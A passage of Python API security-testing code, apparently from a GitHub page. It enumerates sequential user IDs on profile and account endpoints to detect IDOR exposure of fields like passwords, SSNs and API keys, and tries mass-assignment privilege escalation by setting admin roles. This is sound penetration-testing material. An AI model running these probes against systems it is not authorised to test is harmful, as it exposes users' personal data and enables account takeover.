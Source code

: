 ```python
            '/api/profiles/{id}',
            '/api/accounts/{id}'
        ]
        
        for pattern in idor_patterns:
            self.test_sequential_access(pattern)
            self.test_privilege_escalation(pattern)
    
    def test_sequential_access(self, pattern):
        """Test sequential ID access"""
        # Test access to multiple sequential IDs
        for user_id in range(1, 100):
            endpoint = pattern.format(id=user_id)
            
            try:
                response = self.session.get(urljoin(self.base_url, endpoint))
                
                if response.status_code == 200:
                    # Analyze response for sensitive data
                    if self.contains_sensitive_data(response.json()):
                        print(f"[+] IDOR found: {endpoint}")
                        
            except Exception:
                continue
    
    def contains_sensitive_data(self, data):
        """Check if response contains sensitive information"""
        sensitive_fields = [
            'password', 'email', 'phone', 'ssn', 'credit_card',
            'address', 'salary', 'api_key', 'token'
        ]
        
        data_str = json.dumps(data).lower()
        return any(field in data_str for field in sensitive_fields)
```

### 🔍 Mass Assignment Testing
```python
# Mass assignment vulnerability testing
def test_mass_assignment(endpoint, auth_headers):
    """Test for mass assignment vulnerabilities"""
    # Get original object
    response = requests.get(endpoint, headers=auth_headers)
    original_data = response.json()
    
    # Common privilege escalation fields
    privilege_fields = {
        'role': 'admin',
        'is_admin': True,
        'permissions': ['admin', 'read', 'write', 'delete'],
        'user_type': 'admin',
        'level': 999,
        'status': 'active'
    }
    
    # Test each field
    for field, value in privilege_fields.items():
        test_data = original_data.copy()
        test_data[field] = value
        
        # Attempt to update with privilege escalation
        update_response = requests.put(
            endpoint,
```